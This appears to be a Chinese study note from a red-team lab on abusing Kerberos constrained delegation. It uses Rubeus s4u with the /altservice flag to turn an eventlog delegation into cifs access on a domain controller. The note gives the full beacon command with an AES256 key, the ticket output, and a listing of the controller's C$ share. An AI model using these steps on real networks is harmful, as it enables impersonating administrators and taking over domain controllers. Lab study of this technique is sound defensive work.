 ```

这个就是约束委派的一个具体例子

原文：
> The eventlog service on DC-2 is not immediately useful for lateral movement, but the service name is not validated in s4u. This means we can request a TGS for any service run by DC-2$, using /altservice flag in Rubeus.


我的理解是，一台存在约束委派的计算机，可以利用Rubeus.exe通过指定指定flag ```/altservice```去访问任意服务。在这个例子里，本来是委派了eventlog服务，现在通过命令我们可以访问cifs服务。

命令
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:eventlog/dc-2.dev.cyberbotic.io /altservice:cifs /user:srv-2$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /ptt

[*] Action: S4U

[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256-cts-hmac-sha1 hash: 952891c9933c675cbbc2186f10e934ddd85ab3abc3f4d2fc2f7e74fcdd01239d
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\srv-2$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFLD [...snip...] MuSU8=

[*] Action: S4U

[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Building S4U2self request for: 'SRV-2$@DEV.CYBERBOTIC.IO'
[+] Sequence number is: 1421721239
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'SRV-2$@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

      doIFfj [...snip...] WLTIk

[*] Impersonating user 'Administrator' to target SPN 'eventlog/dc-2.dev.cyberbotic.io'
[*]   Final tickets will be for the alternate services 'cifs'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Building S4U2proxy request for service: 'eventlog/dc-2.dev.cyberbotic.io'
[+] Sequence number is: 1070349348
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
[*] base64(ticket.kirbi) for SPN 'cifs/dc-2.dev.cyberbotic.io':

      doIGvD [...snip...] ljLmlv

[+] Ticket successfully imported!
```

参数解释：
/msdsspn ： 就是原来委派的一个服务，这里是```eventlog/dc-2.dev.cyberbotic.io```
/altservice : 这里换成了委派的另一个服务```cifs```，这样就可以访问dc-2的文件系统了


现在可以访问```dc-2```的文件系统
```
beacon> ls \\dc-2.dev.cyberbotic.io\c$
